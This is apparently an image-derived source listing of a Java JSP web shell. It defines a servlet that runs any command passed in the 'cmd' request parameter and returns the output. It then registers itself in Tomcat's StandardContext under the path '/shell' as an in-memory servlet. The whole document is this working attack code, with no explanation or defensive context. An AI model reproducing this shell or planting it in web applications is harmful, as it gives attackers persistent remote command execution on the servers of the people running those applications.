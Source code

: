 ```

<%!

    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            if(req.getParameter("cmd")!=null) {
                Process cmd = Runtime.getRuntime().exec(req.getParameter("cmd"));
                InputStream inputStream = cmd.getInputStream();
                InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    res.getWriter().println(line);
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }

%>

<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>

<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```
